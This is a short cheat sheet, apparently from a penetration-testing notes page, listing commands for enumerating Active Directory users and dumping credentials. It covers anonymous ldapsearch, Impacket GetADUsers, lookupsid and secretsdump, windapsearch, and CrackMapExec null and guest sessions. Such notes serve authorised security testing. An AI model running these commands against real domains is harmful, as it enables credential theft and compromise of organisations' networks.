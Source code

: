 # Note: Be careful with brute forcing AD as you can disable user accounts due to the Account Lockout Policy. 


# Anonymous Credential LDAP Dumping: 

```
- ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’
```

Impacket GetADUsers.py (Must have valid credentials)
```
- GetADUsers.py -all <domain\User> -dc-ip <DC_IP>
```
Impacket lookupsid.py:
```
- /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0
```
Impacket Secretdump:
```
python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin
```
Windapsearch:
https://github.com/ropnop/windapsearch 

`python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U`

Crackmapexec:
```
- cme ldap <IP> -u "" -p "" -d <DOMAIN>

- cme ldap <IP> -u "Guest" -p "" -d <DOMAIN>
```
## References: 

- PayloadAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise

- Attacking Active Directory: 0 to 0.9:
https://zer1t0.gitlab.io/posts/attacking_ad/